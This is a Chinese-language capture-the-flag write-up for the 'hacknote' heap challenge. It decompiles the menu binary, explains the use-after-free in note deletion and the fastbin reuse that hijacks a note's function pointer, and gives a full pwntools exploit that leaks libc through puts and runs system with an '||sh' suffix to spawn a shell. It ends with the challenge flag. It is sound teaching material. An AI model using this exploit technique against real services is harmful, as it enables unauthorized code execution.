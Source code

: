 # hacknote

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=d4d440f9-1905-400d-b07a-df8a334d92f6_2)

这题看了很久了，结局也是毫不意外——没懂。

这次的checksec帮助较小，就不放了，直接main。

```c
void Main(void)
{
  int iVar1;
  int in_GS_OFFSET;
  char local_18 [4];
  undefined4 local_14;
  undefined *puStack12;
  puStack12 = &stack0x00000004;
  local_14 = *(undefined4 *)(in_GS_OFFSET + 0x14);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  do {
    while( true ) {
      while( true ) {
        PrintMenu();
        read(0,local_18,4);
        iVar1 = atoi(local_18);
        if (iVar1 != 2) break;
        DeleteNote();
      }
      if (2 < iVar1) break;
      if (iVar1 == 1) {
        AddNote();
      }
      else {
LAB_08048a96:
        puts("Invalid choice");
      }
    }
    if (iVar1 != 3) {
      if (iVar1 == 4) {
                    /* WARNING: Subroutine does not return */
        exit(0);
      }
      goto LAB_08048a96;
    }
    PrintNote();
  } while( true );
}
```

还是能看出来是个菜单的，就是顺序有点乱。按顺序先看AddNote。

```c
void AddNote(void)
{
  int iVar1;
  void *pvVar2;
  size_t __size;
  int in_GS_OFFSET;
  int i;
  char local_18 [8];
  int local_10;
  local_10 = *(int *)(in_GS_OFFSET + 0x14);
  if (DAT_0804a04c < 6) {
    for (i = 0; i < 5; i = i + 1) {
      if (*(int *)(&DAT_0804a050 + i * 4) == 0) {
        pvVar2 = malloc(8);
        *(void **)(&DAT_0804a050 + i * 4) = pvVar2;
        if (*(int *)(&DAT_0804a050 + i * 4) == 0) {
          puts("Alloca Error");
                    /* WARNING: Subroutine does not return */
          exit(-1);
        }
        **(code ***)(&DAT_0804a050 + i * 4) = FUN_0804862b;
        printf("Note size :");
        read(0,local_18,8);
        __size = atoi(local_18);
        iVar1 = *(int *)(&DAT_0804a050 + i * 4);
        pvVar2 = malloc(__size);
        *(void **)(iVar1 + 4) = pvVar2;
        if (*(int *)(*(int *)(&DAT_0804a050 + i * 4) + 4) == 0) {
          puts("Alloca Error");
                    /* WARNING: Subroutine does not return */
          exit(-1);
        }
        printf("Content :");
        read(0,*(void **)(*(int *)(&DAT_0804a050 + i * 4) + 4),__size);
        puts("Success !");
        DAT_0804a04c = DAT_0804a04c + 1;
        break;
      }
    }
  }
  else {
    puts("Full");
  }
  if (local_10 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

看到这我直接懵逼。能看出来malloc了两次，但不知道为啥要这么干。看了[wp](https://blog.csdn.net/seaaseesa/article/details/102988232)才知道是个结构体，一个Note内部有函数指针和内容指针，正好是第一次malloc的长度8字节；第二次malloc是给要输入的内容开辟空间。

然后看DeleteNote。

```c
void DeleteNote(void)
{
  int iVar1;
  int in_GS_OFFSET;
  char local_14 [4];
  int local_10;
  local_10 = *(int *)(in_GS_OFFSET + 0x14);
  printf("Index :");
  read(0,local_14,4);
  iVar1 = atoi(local_14);
  if ((iVar1 < 0) || (DAT_0804a04c <= iVar1)) {
    puts("Out of bound!");
                    /* WARNING: Subroutine does not return */
    _exit(0);
  }
  if (*(int *)(&DAT_0804a050 + iVar1 * 4) != 0) {
    free(*(void **)(*(int *)(&DAT_0804a050 + iVar1 * 4) + 4));
    free(*(void **)(&DAT_0804a050 + iVar1 * 4));
    puts("Success");
  }
  if (local_10 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

malloc+free不置null明显UAF。我自己做的时候能想到这个漏洞，但是不知道怎么利用。最后再看个PrintNote。

```c
void PrintNote(void)
{
  int iVar1;
  int in_GS_OFFSET;
  char local_14 [4];
  int local_10;
  local_10 = *(int *)(in_GS_OFFSET + 0x14);
  printf("Index :");
  read(0,local_14,4);
  iVar1 = atoi(local_14);
  if ((iVar1 < 0) || (DAT_0804a04c <= iVar1)) {
    puts("Out of bound!");
                    /* WARNING: Subroutine does not return */
    _exit(0);
  }
  if (*(int *)(&DAT_0804a050 + iVar1 * 4) != 0) {
    (***(code ***)(&DAT_0804a050 + iVar1 * 4))(*(undefined4 *)(&DAT_0804a050 + iVar1 * 4));
  }
  if (local_10 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

打印笔记内容的实质是(\*\*\*(code \*\*\*)(&DAT_0804a050 + iVar1 \* 4))(\*(undefined4 \*)(&DAT_0804a050 + iVar1 \* 4))，有点抽象但是能感觉到是调用了什么函数。结合刚刚提到的结构体中的函数指针可以猜测是调用了那个函数。事实确实如此，回头看赋值的函数FUN_0804862b。

```c
void FUN_0804862b(int param_1)
{
  puts(*(char **)(param_1 + 4));
  return;
}
```

就是puts。后续exp直接用这个函数来泄露地址。puts多没意思，有没有办法可以把这个函数指针改成别的？正常来说是不行的，因为每个note创建时函数指针都是puts，而且我们无法修改当前笔记的指针。所以为什么一定要修改当前笔记的呢？别忘了UAF的强大。

首先申请note1，内容大小不要填0x8，因为这正好也是笔记结构体的大小，delete之后会打乱我们对堆块的控制。内容随意填，可以看出来笔记的内容不重要，重要的只有那个函数指针。然后再来一个note2，条件和note1一样。最后删除note1，删除note2。只关注函数指针，两个笔记都有0x8大小的内存被free，note1先free，note2后free。因为fastbin后进先出的特点，如果这个时候再malloc一个0x8大小的内存，得到的就是指向note2结构体的指针。

于是我们再创建一个笔记note3，大小为0x8。首先系统会给note结构体malloc 0x8的大小，得到了指向note2结构体的指针。这块不重要，重点是当程序再次给内容申请内存时，由于大小也是0x8，那这次就得到了指向note1结构体的指针。现在我们就能随意控制函数指针了，只不过不是note3的，是note1的。执行被更改的函数指针也很简单，在PrintNote那里打印note1，也就是索引为0。第一次我们需要把puts的加载地址打印出来，计算libc中的偏移。

计算完成后重复以上步骤。删除note3，创建note4，大小还是0x8。由于DeleteNote中先释放的内容指针再释放的函数指针，因此创建笔记时，note4函数指针是note3的函数指针也是note2的结构体指针，note4的内容指针就是note3的内容指针也就是note1的函数指针。一样的情况再次被我们利用到。这个时候就可以直接上system了。先把exp放出来。

```python
from pwn import *
p=remote('61.147.171.105',60798)
def Add(size,content):
    p.sendlineafter('Your choice :','1')
    p.sendlineafter('Note size :',str(size))
    p.sendlineafter('Content :',content)
def Print(index):
    p.sendlineafter('Your choice :','3')
    p.sendlineafter('Index :',str(index))
def Del(index):
    p.sendlineafter('Your choice :','2')
    p.sendlineafter('Index :',str(index))
Add(0x20,'aaaa')
Add(0x20,'bbbb')
Del(0)
Del(1)
puts_got=134520868
FUN_0804862b=0x0804862B
Add(0x8,p32(FUN_0804862b)+p32(puts_got))
Print(0)
puts_addr=u32(p.recv(4))
system_addr=puts_addr-0x24800
Del(2)
payload=p32(system_addr)+b'||sh'
Add(0x8,payload)
Print(0)
p.interactive()
```

||sh是因为传入system的参数是一整个结构体，也就是p32(system_addr)+b'||sh'。p32(system_addr)这个东西肯定无法执行，||就是在前一个命令无法执行的情况下执行的命令。这是shell基础，不难。之前泄露puts正常的原因是我们使用的是FUN_0804862b，这个函数本身就只会将传入的参数从第4位开始作为参数，故成功执行。

- ### Flag
  > cyberpeace{0977c7973dc138ca1639a8fb8741d7ba}